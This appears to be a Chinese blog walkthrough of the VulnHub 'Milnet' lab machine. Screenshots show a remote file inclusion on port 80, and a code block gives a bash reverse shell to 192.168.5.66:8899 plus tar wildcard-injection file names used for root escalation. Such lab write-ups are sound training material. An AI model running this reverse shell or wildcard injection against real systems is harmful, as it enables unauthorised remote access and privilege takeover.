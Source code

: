 +++
ShowToc = true
TocOpen = true
title = '0x033 Milnet'
date = 2024-10-11T14:25:59+08:00
draft = false
private = true
show_reading_time = true
categories = 'vulnhub'
+++



这台靶机的网络很棒，能桥接，还能自动告诉咋们IP地址

# 端口扫描

![](/vulnhub_img/WEBRESOURCEa3613cd58e1766b1f64062b552945d74截图.png)

![](/vulnhub_img/WEBRESOURCE13482f9d87fa08afddc390f6189f74b4截图.png)

![](/vulnhub_img/WEBRESOURCEf10e92bf472185f88c8e89af154e1b0e截图.png)

# 渗透

就两个端口，直接看80呗：

![](/vulnhub_img/WEBRESOURCE7fbe03601bbb56b42c0b78c15ce61ea7截图.png)

抓包看了一下数据包，发现确实存在远程文件包含：

![](/vulnhub_img/WEBRESOURCE05d04d462add4336b384a9e3349da83c截图.png)

弹shell吧，这里看报错就可以知道，应该是逻辑处理的地方添加了php后缀：

![](/vulnhub_img/WEBRESOURCE71656d2d3631a661ebeb9c498b8e30f3截图.png)

# 提权

![](/vulnhub_img/WEBRESOURCEe7ecf0b20d849e7e0269ce46b445e679截图.png)

![](/vulnhub_img/WEBRESOURCEba6a7f434d0f879b5652a30810d07096截图.png)

查了一些资料，关于tar通配符提权：

[https://www.cnblogs.com/jhinjax/p/17067082.html](https://www.cnblogs.com/jhinjax/p/17067082.html)

第一次尝试失败了，我猜测是下面这个红框里面的原因，没有引号，中间有空格，让人操蛋的是，这玩意儿删不掉：

![](/vulnhub_img/WEBRESOURCEf645dfaef77a30b8bf4b30a85f0bc5b5截图.png)

重置了一下机器，然后这次我加上了引号就可以了

```
echo "bash -c 'bash -i >& /dev/tcp/192.168.5.66/8899 0>&1'">1.sh
touch "/var/www/html/--checkpoint-action=exec='sh 1.sh'"
touch "/var/www/html/--checkpoint=1"
```

![](/vulnhub_img/WEBRESOURCEdc5bc44ab35b6d27bcd2826b13b455c1截图.png)

![](/vulnhub_img/WEBRESOURCE5bbb080e1c1016fd7bb1b8bce5c06292截图.png)